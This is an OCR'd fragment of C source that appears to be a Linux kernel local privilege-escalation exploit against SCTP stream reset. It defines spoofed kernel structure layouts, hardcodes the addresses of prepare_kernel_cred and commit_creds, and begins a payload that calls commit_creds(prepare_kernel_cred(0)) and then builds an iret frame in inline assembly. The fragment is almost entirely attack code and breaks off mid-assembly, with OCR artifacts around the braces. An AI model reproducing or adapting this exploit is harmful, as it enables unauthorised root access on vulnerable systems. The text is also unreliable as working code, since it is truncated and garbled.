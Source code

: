 ```
#define SCTP_ENABLE_RESET_ASSOC_REQ    0x02

#define SCTP_ENABLE_STREAM_RESET    118



struct sock

`{`

        char pad1[0x24];

        void *net;

        char pad[0x278];

        int type;

`}`;



struct sctp_association

`{`

        char pad1[0x18];

        struct sock *sk;

        char pad2[0x34];

        char *ep;

        char pad3[0x158];

        int state;

`}`;



#define KERNCALL __attribute__((regparm(3)))

void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1074ee0;

void (*commit_creds)(void*) KERNCALL = (void*) 0xc1074b80;



void templine()

`{`

    commit_creds(prepare_kernel_cred(0));

    asm(    "pushl   $0x7b;"

        "pushl   $0x4000;"

        "pushl   $0x202;"

        "pushl   $0x73;"
```